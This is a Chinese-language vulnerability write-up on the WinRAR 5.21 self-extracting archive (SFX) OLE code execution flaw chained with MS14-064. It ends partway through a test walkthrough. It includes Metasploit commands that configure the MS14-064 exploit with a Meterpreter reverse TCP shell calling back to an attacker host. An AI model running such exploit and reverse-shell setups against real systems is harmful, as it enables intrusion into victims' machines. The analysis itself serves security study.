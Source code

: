 # WinRAR(5.21)-0day漏洞-始末分析

0x00 前言
=======

* * *

上月底，WinRAR 5.21被曝出代码执行漏洞,Vulnerability Lab将此漏洞评为高危级，危险系数定为9(满分为10)，与此同时安全研究人员Mohammad Reza Espargham发布了PoC，实现了用户打开SFX文件时隐蔽执行攻击代码，但是WinRAR官方RARLabs认为该功能是软件安装必备，没有必要发布任何修复补丁或升级版本。

本以为就此可以跳过该漏洞，但深入研究后发现了更加有趣的事情。

![这里写图片描述](http://drops.javaweb.org/uploads/images/9c2ec5faf90c438c6cf44aa6dd18c58cc8e53395.jpg)

0x01 WinRar 5.21 - SFX OLE 代码执行漏洞
=================================

* * *

简要介绍一下WinRar 5.21 - SFX OLE 代码执行漏洞

1、相关概念
------

**SFX：**SelF-eXtracting的缩写，中文翻译自解压文件，是压缩文件的一种，其可以在没有安装压缩软件的情况下执行解压缩

**MS14-064：**Microsoft Windows OLE远程代码执行漏洞，影响Win95+IE3 – Win10+IE11全版本，实际使用时在win7以上系统由于IE存在沙箱机制，启动白名单以外的进程会弹出提示，如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/60aee3b9f0a14328e28461ad54c64cf4cbc4816f.jpg)

2、漏洞原理
------

sfx文件在创建时支持添加html脚本，但又不会受IE沙箱限制，如果主机存在MS14-064漏洞，在打开包含MS14-064 exp的sfx文件后，即可隐蔽执行任意代码

3、测试环境
------

```
win7 x86
存在MS14-064漏洞
安装WinRar 5.21

```

4、测试过程
------

实现相对简单，因此只作简要介绍

**（1）**搭建server

```
use exploit/windows/browser/ms14_064_ole_code_execution
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.40.131
set LPORT 1234
exploit

```
